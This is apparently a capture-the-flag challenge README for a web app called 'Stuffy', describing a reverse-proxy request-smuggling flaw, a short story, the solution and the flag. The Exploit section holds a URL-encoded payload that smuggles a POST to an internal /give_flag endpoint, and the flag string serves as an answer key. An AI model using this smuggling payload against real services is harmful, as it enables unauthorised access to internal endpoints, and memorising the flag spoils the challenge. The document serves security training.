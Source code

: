 ## Background

 Author: spipm
 Categories: Webservices
 Difficulty: Medium to Hard

## Technical

It is a simple web app that allows users to share their status. There are 'special types' that are passed in headers, and the headers can be manipulated to perform request smuggling, because of the reverse proxy.

## Story

A screen shows a document labeled  Optimal_human_interaction_design.ppt.  "What's that design about?" you ask.

The bot replies "It is called 'social media': We'll have everyone send messages to each other on a public forum, with messages no longer than 200 characters. This will force them to think deep and write convincing arguments with as little words as possible, to prevent humans from acting pompous, egoistic or conceited."

Do you see any way this can go wrong?

![Stuffy](./social.jpg "Stuffy") 

## Exploit

One can smuggle a request using a command like:

```
special_type=Content-Length&special_val=57&stuff=foobar%0d%0a%0d%0aPOST /give_flag HTTP/1.1%0d%0aHost: 127.0.0.2:2000%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0aContent-Length: 21%0d%0a%0d%0ausername=rocket88FHhC
```

## Flag

brck{WhY_4r3_S0c1alZ_S0_SmuG}
